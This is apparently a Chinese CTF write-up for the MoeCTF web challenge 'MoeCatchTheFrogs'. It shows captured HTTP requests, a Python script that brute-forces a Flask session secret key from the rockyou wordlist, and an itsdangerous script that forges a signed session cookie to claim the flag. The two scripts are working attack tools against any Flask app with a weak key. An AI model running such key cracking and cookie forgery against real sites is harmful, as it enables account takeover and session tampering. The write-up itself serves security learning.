



# 西电CTF 2026 MoeCatchTheFrogs

> 发布于 2026-09-22 06:07:49

(为了让本地流量走yakit，使用yakit.bh3mt.cn代替127.0.0.1)

#### 题目



点击找青蛙后


```
请求
POST /api/draw HTTP/1.1
Host: yakit.bh3mt.cn:36781
Origin: http://yakit.bh3mt.cn:36781
Accept-Language: zh-CN
Referer: http://yakit.bh3mt.cn:36781/
Accept: */*
Accept-Encoding: gzip, deflate
Cookie: frog_session=eyJmcm9ncyI6WzAsMV19.arIRxA.yciOlBYneyOSYujNLncpRE7MN7Q
Priority: u=0
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:156.0) Gecko/20100101 Firefox/156.0
Content-Length: 0
```

响应

```
HTTP/1.1 200 OK
Server: gunicorn
Date: Tue, 22 Sep 2026 05:56:16 GMT
Connection: keep-alive
Content-Type: application/json
Content-Length: 43
Vary: Cookie
Set-Cookie: frog_session=eyJmcm9ncyI6WzAsMSw0XX0.arIYgA.zlyyLcmPGGeQeLznoTc688wfbts; HttpOnly; Path=/; SameSite=Lax

{"frogs":[0,1,4],"is_new":true,"rarity":4}
```

发现4对应着青蛙



```
Cookie: frog_session=eyJmcm9ncyI6WzAsMSw0XX0.arIYgA.zlyyLcmPGGeQeLznoTc688wfbts
```

这部分应该是对应的某个青蛙

尝试flask json字典爆破解密(AI代码)

```
import base64, hashlib, hmac
import sys

COOKIE = "eyJmcm9ncyI6WzBdfQ.arIQQg.uZaa0hh6iYzmqToEEOeNHHWi6Es"
WORDLIST = "/home/qinyuanxin132/Documents/rockyou.txt"

part_payload, part_ts, part_sig = COOKIE.rsplit(".", 2)
SIGN_INPUT = f"{part_payload}.{part_ts}".encode()
SALT = b"cookie-session"

def check(word: str) -> bool:
    key = word.encode()
    mac = hmac.new(key, digestmod=hashlib.sha1)
    mac.update(SALT)
    derived = mac.digest()
    sig = hmac.new(derived, SIGN_INPUT, hashlib.sha1).digest()
    sig_b64 = base64.urlsafe_b64encode(sig).rstrip(b"=").decode()
    return hmac.compare_digest(sig_b64, part_sig)

def main():
    print(f"[*] cookie: {COOKIE}")
    print(f"[*] wordlist: {WORDLIST}")
    print("[*] 开始爆破...")
    with open(WORDLIST, "r", encoding="utf-8", errors="ignore") as f:
        for i, line in enumerate(f, 1):
            w = line.strip()
            if not w:
                continue
            if check(w):
                print(f"\n[+] FOUND: {w!r}  (第 {i} 行)")
                return
            if i % 500000 == 0:
                print(f"    {i} ...")
    print("\n[-] 未找到")

if __name__ == "__main__":
    main()
```

```
(.venv) [qinyuanxin132@archlinux0qin Documents]$ /home/qinyuanxin132/Documents/.venv/bin/python /home/qinyuanxin132/Documents/stady/py/5.py
[*] cookie: eyJmcm9ncyI6WzBdfQ.arIQQg.uZaa0hh6iYzmqToEEOeNHHWi6Es
[*] wordlist: /home/qinyuanxin132/Documents/rockyou.txt
[*] 开始爆破...

[+] FOUND: 'qwe123456'  (第 235976 行)
```

得到SECRET_KEY： 'qwe123456'

接着尝试伪造cookie（{"frogs": [0,1,2,3,4,5,6,7,8]}就是集齐所有的青蛙）

```
from itsdangerous import URLSafeTimedSerializer
from flask.json.tag import TaggedJSONSerializer

SECRET_KEY = "qwe123456"

s = URLSafeTimedSerializer(
    SECRET_KEY,
    salt="cookie-session",
    serializer=TaggedJSONSerializer(),
    signer_kwargs={
        "key_derivation": "hmac",
        "digest_method": "sha1",
    }
)

fake = s.dumps({"frogs": [0,1,2,3,4,5,6,7,8]})
print(fake)
```

点击领取图鉴奖励，直接伪造cookie（用yakit劫持）

```
GET /api/claim HTTP/1.1
Host: yakit.bh3mt.cn:36781
Accept-Encoding: gzip, deflate
Referer: http://yakit.bh3mt.cn:36781/
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:156.0) Gecko/20100101 Firefox/156.0
Accept: */*
Cookie: frog_session=eyJmcm9ncyI6WzAsMSwyLDMsNCw1LDYsNyw4XX0.arIRjg.FMJbtV36UhwC2w6Kd20pDO1dtT4
Priority: u=0
Accept-Language: zh-CN
```



得到flag

```
HTTP/1.1 200 OK
Server: gunicorn
Date: Tue, 22 Sep 2026 06:06:14 GMT
Connection: keep-alive
Content-Type: application/json
Content-Length: 61
Vary: Cookie

{"flag":"moectf{F1@sk_c00k1es_w1+h_w3ak_k3y_1s_vu1n3r@bl3}"}
```
